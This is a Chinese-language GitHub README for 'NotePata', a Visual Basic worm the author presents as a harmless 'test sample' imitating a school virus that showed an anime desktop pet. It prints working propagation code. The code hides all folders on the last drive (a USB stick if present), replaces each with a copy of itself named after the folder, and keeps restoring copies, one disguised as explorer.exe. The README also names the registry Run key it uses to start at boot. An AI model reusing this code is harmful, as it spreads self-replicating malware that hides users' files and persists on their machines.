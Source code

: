 # **NotePata - 基于Visual Basic的病毒测试样本**  
##### **声明：本程序为测试样本，本身无实际危害性；切勿使用其从事危害计算机系统的活动，如因不当操作造成危害，概不负责。**  
**程序及源码文件等校验码请[[点此]](/shamd5.md "点此")**
- ## 前情提要
**2023年5月，  
学校的电脑出现了一个病毒. . .  
这个病毒与以往的病毒不同。  
不像木马病毒，隐秘又凶险，  
不像蠕虫病毒，恶毒而无情，  
更不像勒索病毒，敲诈勒索无辜的设备。  
只是在页面底下，出现一个初音桌宠，  
在底部栏活动、奔跑、跳跃。  
一月之间，该病毒传遍各个教室。  
不知病毒由何而来，  
只是，  
同学校相处的最后一个月，  
多了一份特别的挂念. . .**  
- ## 样本简介
**该样本为仿照学校病毒，无毒但具有一定传播力的计算机病毒，由 `CFIT` 于 `2023/7/1` 起编写而成。**
- ## 样本原理
- ##### 文件夹感染
**文件夹感染函数由主题函数```ShowFileList()```实现。
函数代码如下：**
```vb
Private Sub ShowFileList(folderspec) '主体感染函数
On Error GoTo bbzlp0
Dim fs, f, f1, fc
If CreateObject("Scripting.FileSystemObject").DriveExists(folderspec) Then '判断指定盘是否存在
Set fs = CreateObject("Scripting.FileSystemObject")
Set f = fs.getfolder(folderspec)
Set fc = f.SubFolders
For Each f1 In fc '先扫描指定盘的所有文件夹
Debug.Print folderspec + "\" + f1.Name + "\"
If f1.Name <> "System Volume Information" Then '排除"System Volume Information"文件夹
SetAttr folderspec + "\" + f1.Name + "\", vbHidden '隐藏扫描的文件夹
If Dir(folderspec + "\" + f1.Name + ".exe") = "" Then
FileCopy App.Path + "\" + App.EXEName + ".exe", folderspec + "\" + f1.Name + ".exe" '替换为以感染文件夹为名称的应用程序（其实就是复制病毒本体）
End If
End If
If Dir("C:\Backups\", vbDirectory) = "" Then '病毒Notepata本体文件夹
fs.createfolder ("C:\Backups\")
End If
If Dir("D:\Setup\", vbDirectory) = "" Then '病毒explorer代理文件夹
fs.createfolder ("D:\Setup\")
End If
If Dir("C:\Backups\notepata.exe") = "" Then
FileCopy App.Path + "\" + App.EXEName + ".exe", "C:\Backups\notepata.exe" '本体被删除，由此恢复
End If
If Dir("D:\Setup\explorer.exe") = "" Then
FileCopy App.Path + "\" + App.EXEName + ".exe", "D:\Setup\explorer.exe" '代理被删除，由此恢复
End If
If App.EXEName <> "notepata" And App.EXEName <> "explorer" And Me.Enabled = True Then '其余情况下，若非本体及代理，则只执行文件夹打开操作
Shell "explorer " + Chr(34) + folderspec + App.EXEName + Chr(34), vbNormalFocus '打开病毒名称的文件夹
Me.Enabled = False '禁用其余行为
Timer1.Enabled = False '禁用其余行为
Timer2.Enabled = False '禁用其余行为
Timer3.Enabled = False '禁用其余行为
Timer4.Enabled = False '禁用其余行为
Timer5.Enabled = False '禁用其余行为
Timer6.Enabled = False '禁用其余行为
End If
Next
Else
DoEvents
End If
bbzlp0:
If Err.Number > 0 Then
HandleErr '错误处理
End If
End Sub
```
- ##### 传播原理
**由以上代码，通过将指定盘符（最后一个盘符，将于以下提及）内所有文件夹隐藏，替换为以文件夹名称命名的病毒程序，通过病毒程序进一步感染。  
确定最后一个盘符代码如下：**
```vb
'此前变量定义等代码省略
StrDrive = String(100, Chr$(0)) '初始化盘符串
Call GetLogicalDriveStrings(100, StrDrive) '返回盘符串（返回值如"C:\D:\E:\..."）
'...中间代码省略
DriveID = Split(StrDrive, Chr$(0)) '返回光盘盘符到数组DeiveID并逐字符分离
For ii = 0 To UBound(DriveID)
If InStr(DriveID(ii), ":") <> 0 Then
av = av + 1
avail(av) = DriveID(ii)
End If
Next ii
S = avail(av) '获得最末盘符（若可移动硬盘为U盘，则感染盘为U盘）
ShowFileList S '调用上述感染核心函数
```
**除此之外，本样本实现加入开机启动项，使用注册表实现。  
注册表项：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`**
**本样本亦存在代理程序，用于病毒删除后恢复等。具体从源码注释中理解。**
- ##### 桌宠原理
**本样本使用图片逐帧分帧实现动图效果。
逐帧图片如下：**
[![](https://cdn.jsdelivr.net/gh/CFITCorporation/cfitpic@a66715cf1fefc989390869a733b68df61c321c82/pic/2023/07/05/c9b0b75052bc2171ad6afa68cf9f2fe6.png)](./ "逐帧图片")  

**同样，本样本实现光标吸引、无操作6s后开始活动等功能，具体从源码注释中理解。**  
- ## 作者
**本程序样本由`CFIT`独立实现。**
- ## 注意
**如有人向您传播该病毒并要求您测试，请核对本文件头部校验码后操作，否则后果自负。**
